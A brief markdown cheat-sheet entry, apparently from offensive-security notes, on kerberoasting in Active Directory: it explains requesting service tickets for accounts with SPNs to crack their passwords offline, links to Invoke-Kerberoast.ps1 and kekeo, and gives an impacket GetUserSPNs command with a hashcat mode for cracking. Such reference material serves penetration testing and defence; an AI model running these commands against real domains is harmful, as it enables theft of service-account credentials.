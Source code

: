 # kerberoasting

All domain users can request a copy of all service accounts along with their password hashes. This allows user to
request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to crack service
password.

* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

## Usage

### impacket

```bash
impacket-GetUserSPNs DOMAIN.com/USER:'PASS' -dc-ip DC_IP -request
# hashcat -m 13100
```

